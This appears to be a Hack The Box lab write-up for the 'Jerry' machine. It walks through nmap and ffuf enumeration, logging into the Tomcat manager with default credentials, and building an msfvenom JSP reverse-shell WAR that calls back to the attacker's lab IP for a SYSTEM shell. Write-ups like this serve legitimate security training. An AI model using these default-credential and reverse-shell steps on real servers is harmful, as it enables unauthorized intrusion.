






# Jerry - Easy

Target IP: **10.129.136.9**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.136.9 -v```

Output shows Apache Tomcat version 7.0.88 running on port 8080.

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

Navigating to the page, we are greeted with the tomcat installation page.



```admin:admin``` works for credentials, but it seems like the account lacks the permissions to view ```/manager/html``` or ```/host-manager```.



We can view ```/manager/status```. From this, we can see the server is running Windows Server 2012 R2 version 6.3.



Let's enumerate further. Directory enumeration gives a few interesting results.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ss5zr0wxia]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.129.136.9:8080/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.136.9:8080/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 11398, Words: 4248, Lines: 202, Duration: 20ms]
docs                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 57ms]
examples                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 10ms]
manager                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 6ms]
con                     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 32ms]
                        [Status: 200, Size: 11398, Words: 4248, Lines: 202, Duration: 25ms]
aux                     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 9ms]
:: Progress: [87651/87651] :: Job [1/1] :: 1587 req/sec :: Duration: [0:00:23] :: Errors: 0 ::
```

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ss5zr0wxia]─[~]
└──╼ [★]$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://10.129.136.9:8080/FUZZ -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.136.9:8080/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

docs                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 28ms]
examples                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 6ms]
favicon.ico             [Status: 200, Size: 21630, Words: 19, Lines: 22, Duration: 6ms]
host-manager            [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 7ms]
lpt1                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 106ms]
lpt2                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 113ms]
manager                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 7ms]
nul                     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 7ms]
prn                     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 9ms]
:: Progress: [4750/4750] :: Job [1/1] :: 3225 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

```/con``` and ```/aux``` lead us to blank pages. After a search online, these directories are standard to Tomcat. Enumerating further doesn't get us any results.





Big mistake, when I tested common credentials, I typed in ```tomcat:s3cr3t``` instead of ```tomcat:s3cret```. Oops.

We can indeed access ```/manager/html```.



Let's generate a ```.war``` payload.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-ss5zr0wxia]─[~]
└──╼ [★]$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.194 LPORT=4444 -f war -o shell.war
Payload size: 1091 bytes
Final size of war file: 1091 bytes
Saved as: shell.war
```

After navigating to the deployed ```.war``` file, we get a shell back, apparently as ```NT AUTHORITY\SYSTEM```?

In the Administrator user's desktop, we can get both flags.

```
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,397,859,840 bytes free
```

## Root Flag

Two birds with one stone.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
